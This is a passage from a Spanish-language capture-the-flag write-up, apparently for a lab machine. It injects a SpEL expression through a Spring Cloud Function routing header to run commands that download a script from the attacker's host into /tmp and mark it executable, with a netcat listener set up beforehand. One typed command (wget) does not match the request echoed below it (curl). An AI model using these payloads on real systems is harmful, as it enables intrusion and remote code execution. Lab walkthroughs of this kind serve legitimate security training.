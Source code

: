 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
En otra terminal nos ponemos en escucha.
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```
Subismos el archivo
```bash
❯ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.83/pwned.sh -o /tmp/pwned.sh")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.83/pwned.sh -o /tmp/pwned.sh")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Tue, 04 Apr 2023 19:24:40 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-04-04T19:24:40.750+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}#   

```
Le damos permiso 

```bash
❯ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/pwned.sh")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/pwned.sh")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Tue, 04 Apr 2023 19:26:55 GMT
< Connection: close
< 
* Closing connection 0
```